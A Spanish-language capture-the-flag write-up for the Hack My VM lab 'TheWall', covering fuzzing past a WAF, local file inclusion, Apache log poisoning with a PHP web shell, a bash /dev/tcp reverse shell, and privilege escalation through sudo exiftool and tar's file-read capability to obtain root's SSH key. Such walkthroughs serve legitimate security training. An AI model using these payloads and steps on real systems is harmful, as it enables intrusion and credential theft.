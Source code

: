 ```yaml
---
layout: post
title: TheWall
date: 2022-11-26
categories: ["HMV"]
thumbnail: "assets/images/TheWall.png"
---
```


# TheWall [ Hack My VM ]

### Reconocimiento

**Descubrimiento de puertos y reconocimiento básico**
- `nmap -sS --min-rate 5000 192.168.1.114 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.114 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell

Si miramos la página veremos que sólo pone un `Hello World!` en grande, por lo que poco podemos hacer, pero bueno, podemos seguir investigamos. Si vamos la ruta `/index.php` veremos el mismo mensaje, por lo que ya sabemos que está utilizando `PHP`.

Con esto aprendido podemos hacer `fuzzing` por archivos `PHP`, aunque si nos fijamos veremos que la página tiene un `WAF` (`Web Application Firewall`), por lo que si vamos muy rápido nos dará el mismo mensaje siempre (`Forbidden`). Para el siguiente paso utilizaré `GoBuster`, una herramienta creada en `GoLang` para hacer `fuzzing`.

```
gobuster dir -u "http://192.168.1.114" -w directory-list-2.3-medium.txt -x php - -delay 1s -t 1 --b 403,404
```

```
/index.php (Status: 200 ) [Size: 25 ]
/includes.php (Status: 200 ) [Size: 2 ]
```

Tras esperar un buen rato vemos dos archivos, el respectivo `index.php` e `includes.php`, si abrimos dicho archivo veremos una página en blanco, podemos intuir (por el nombre) que dispondrá de algún parámetro que apuntará a un archivo local, por lo que podemos tratar de `fuzzear` ese parámetro. Para ello utilizaré `WFuzz`:

```
wfuzz -u "http://192.168.1.114/includes.php?FUZZ=/etc/passwd" -w directory-list-2.3-medium.txt --hc=404 --hh=2 -t 200
```

```
000217299: 200 28 L 41 W 1460 Ch "display_page"
```

Tras otro rato esperando vemos el parámetro `display_page`, así que si nos vamos a la web podemos ver el archivo que queramos de la máquina. Acabamos de encontrar un `LFI`!

Con esto encontrado podemos hacer `Log Poisoning`, para eso me dirigiré a `/var/log/apache2/access.log`, vemos que existe, por lo que podemos  continuar. Con `NC` me conectaré al puerto `80` y mandaré una petición `GET` con un pequeño `script` en `PHP`.

- `nc 192.168.1.114 80`

```
GET <?php system($_GET['cmd']); ?>
```

Este pequeño `script` en `PHP` cogerá el `input` del parámetro `cmd`, lo ejecutará y lo mostrará en pantalla. Por lo que ya podemos ejecutar comandos en la máquina.

Para conseguir una Shell me copié de [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) una Reverse Shell en `Bash` y la puse (intercambiando los `&` por `%26` para no obtener problemas) en el parámetro `cmd`. Antes de todo esto me puse en escucha con `NC` por el puerto `4444`.

- `nc -nlvp 4444`

Ahora sí, estamos preparados para lanzar la Reverse Shell:

```
http://192.168.1.114/includes.php?display_page=/var/log/apache2/access.log&cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.1.114/4444 0>%261'
```
Bien! Hemos recibido una Shell como `www-data`!

### Subida de privilegios #1

Ahora que ya estamos en la máquina víctima tenemos que tratar de ser `root`, pero antes de eso nos tenemos que convertir en `John`. Comencé por hacer `sudo -l` para listar todo lo que podía hacer en la máquina.

```
Matching Defaults entries for www-data on TheWall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on TheWall:
    (john : john) NOPASSWD: /usr/bin/exiftool
```
Vemos que puedo ejecutar como `John` una herramienta llamada `ExifTool`. Si nos vamos a [`GTFOBins`](https://gtfobins.github.io/gtfobins/exiftool/#sudo) vemos que podemos escribir un archivo con dicha herramienta, por lo que decidí generarme un par de llaves `SSH` en mi máquina de atacante con `ssh-keygen` y copiar la clave pública (`id_rsa.pub`) en el directorio `/tmp/` de la máquina víctima.

Con esto hecho seguí las instrucciones de [`GTFObins`](https://gtfobins.github.io/gtfobins/exiftool/#sudo), quedándome así la instrucción:

```
sudo -u john /usr/bin/exiftool -filename=/home/john/.ssh/authorized_keys /tmp/id_rsa.pub
```

Esto ha hecho que copiemos nuestra `id_rsa` pública en un archivo llamado `authorized_keys`, el
cual al estar ahí nuestra llave podemos conectarnos como `John` sin proporcionar contraseña.

### Subida de privilegios #2

Una vez que estemos como `John` en la máquina ya podemos seguir nuestra misión, conseguir ser `root`, para ello (y tras varios minutos buscando) con el comando `id` listé los grupos a los que pertenecía, pertenecía al grupo `1000` , por lo que me puse a buscar ficheros que pertenezcan a dicho grupo.

- `find / -group 1000 2>/dev/null`

```
[ ... ]
/usr/sbin/tar
[ ... ]
```

Vemos un fichero llamado `tar`, vamos a ver qué capacidades tiene con `/sbin/getcap -r 2>/dev/null`:

```
[ ... ]
/usr/sbin/tar cap_dac_read_search=ep
[ ... ]
```

Como vemos tiene la capacidad de leer archivos. Me encontré un artículo de [`TBHaxor`](https://tbhaxor.com/exploiting-linux-capabilities-part-2/) que explica muy bien cómo poder explotar dicha capacidad, por lo seguí sus pasos, aunque cambiándolo un poco.

Si nos vamos a la raíz del sistema vemos dos archivos, un `id_rsa.pub` el cual
pertenece a `root` y otro archivo, `id_rsa` (el privado) que no podemos leer, por lo que podemos intuir que es de `root`. Vámonos al directorio `/tmp/`.

Bien, es la hora de explotar la capacidad de `TAR`, para ello hacemos lo siguiente:

- `/sbin/tar -czf root.id_rsa /id_rsa`

Como vemos se nos creó un archivo llamado `root.id_rsa` (o como le hayáis puesto) que si lo leemos tendrá la clave privada de `root`.

Enhorabuena! Hemos obtenido `root` en la máquina víctima de forma sencilla!
